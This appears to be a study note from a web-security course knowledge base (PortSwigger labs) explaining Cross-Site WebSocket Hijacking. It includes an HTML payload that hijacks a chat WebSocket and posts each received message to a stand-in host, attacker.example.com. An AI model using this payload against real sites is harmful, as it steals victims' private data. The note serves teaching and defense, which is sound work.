

## Cross-Site WebSocket Hijacking (CSWH)

Cross-Site WebSocket Hijacking (CSWH) is a type of attack where an attacker exploits a user's active WebSocket connection to perform unauthorized actions. This attack is similar to Cross-Site Request Forgery (CSRF) but specifically targets WebSocket connections.

### How CSWH Works

In a typical CSWH scenario, the attacker crafts a malicious script that interacts with the victim's WebSocket connection. The script can be embedded in a webpage or sent via email. When the victim visits the malicious page, the script executes and hijacks the WebSocket connection.

#### Attack Chain Diagram



### Real-World Example: CVE-2021-3427

CVE-2021-3427 is a real-world example of a CSWH vulnerability found in a popular web application. The vulnerability allowed attackers to hijack WebSocket connections and exfiltrate sensitive data. This highlights the importance of securing WebSocket connections against such attacks.

### Complete Exploit Example

To demonstrate a CSWH attack, consider the following scenario where an attacker wants to exfiltrate the victim's chat history from a WebSocket-based live chat feature.

#### Malicious HTML Payload

```html
<!DOCTYPE html>
<html>
<head>
    <title>Malicious WebSocket Hijacking</title>
</script>
<script>
    // Establish a WebSocket connection to the same endpoint as the victim
    var ws = new WebSocket('ws://server.example.com/chat');

    // Listen for messages from the server
    ws.onmessage = function(event) {
        // Exfiltrate the data to the attacker's server
        var xhr = new XMLHttpRequest();
        xhr.open("POST", "http://attacker.example.com/log");
        xhr.setRequestHeader("Content-Type", "application/json;charset=UTF-8");
        xhr.send(JSON.stringify({data: event.data}));
    };
</script>
</head>
<body>
    <!-- The script runs automatically when the page loads -->
</body>
</html>
```

### Pitfalls and Common Mistakes

One common mistake is assuming that WebSocket connections are inherently secure because they are often used in conjunction with HTTPS. However, the security of the connection depends on proper implementation and configuration. Another pitfall is neglecting to validate WebSocket origins, making it easier for attackers to hijack connections.

---
<!-- nav -->
[[03-Introduction to WebSockets|Introduction to WebSockets]] | [[Web Security (PortSwigger)/14-WebSockets Vulnerabilities/03-Lab 3 Cross site WebSocket hijacking/00-Overview|Overview]] | [[05-Hands-On Practice Labs|Hands-On Practice Labs]]
